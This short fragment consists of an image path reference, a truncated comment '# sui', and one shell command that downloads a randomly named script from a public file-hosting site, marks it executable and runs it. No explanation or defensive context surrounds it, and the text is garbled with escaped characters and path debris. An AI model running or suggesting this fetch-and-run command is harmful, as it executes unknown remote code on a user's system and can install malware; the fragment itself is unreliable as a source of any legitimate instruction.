 # sui
wget -O 9f4q7i.sh https://files.catbox.moe/9f4q7i.sh &amp;&amp; chmod +x 9f4q7i.sh &amp;&amp; ./9f4q7i.sh
